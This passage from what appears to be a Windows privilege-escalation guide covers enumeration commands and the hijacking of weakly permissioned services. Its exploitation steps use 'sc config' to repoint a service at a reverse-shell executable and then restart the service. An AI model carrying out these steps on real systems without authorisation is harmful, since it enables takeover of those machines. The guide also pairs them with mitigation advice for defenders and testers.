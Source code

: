         PRIVILEGES INFORMATION
        ----------------------
        Privilege Name                Description                               State
        ============================= ========================================= =======
        SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
        SeImpersonatePrivilege        Impersonate a client after authentication Enabled  <-- VULNERABLE
        ```

    * **System Information:** Get OS version and architecture. This is key for finding kernel exploits.
        ```powershell
        systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
        ```
        *Example Output:*
        ```
        OS Name:                   Microsoft Windows 10 Pro
        OS Version:                10.0.19044 N/A Build 19044
        System Type:               x64-based PC
        ```

    * **Running Processes & Services:** See what's running and under which user account.
        ```powershell
        tasklist /SVC
        net start
        ```

    * **Network Configuration:** See network interfaces and listening ports.
        ```powershell
        ipconfig /all
        netstat -ano
        ```

---

### ## 2. Weak Service Permissions

A service is a program that runs in the background, often as the powerful `NT AUTHORITY\SYSTEM` user. If a low-privilege user can modify or restart a high-privilege service, they can hijack it.

* **What to look for:** Services where a non-administrative user or group has permissions like `SERVICE_ALL_ACCESS` or `SERVICE_CHANGE_CONFIG`.
* **Commands & Tools:**
    * **AccessChk:** A Sysinternals tool for checking permissions. The command checks which services the 'Users' group can modify.
        ```powershell
        accesschk.exe /accepteula -uwcqv "Users" *
        ```
    * **WinPEAS/PowerUp:** These scripts automate the detection process.
        * PowerUp command: `Invoke-AllChecks`
* **Exploitation:**
    1.  Find a vulnerable service (e.g., `VulnSvc`).
    2.  Use `sc` (Service Control) to reconfigure the service's executable path (`binPath`) to point to your own malicious executable.
        ```powershell
        sc config VulnSvc binPath= "C:\tmp\reverse_shell.exe"
        ```
    3.  Restart the service to execute your payload.
        ```powershell
        sc stop VulnSvc
        sc start VulnSvc
        ```
* **Mitigation:** Apply the principle of least privilege. Ensure that only authorized administrators can modify service configurations.

---
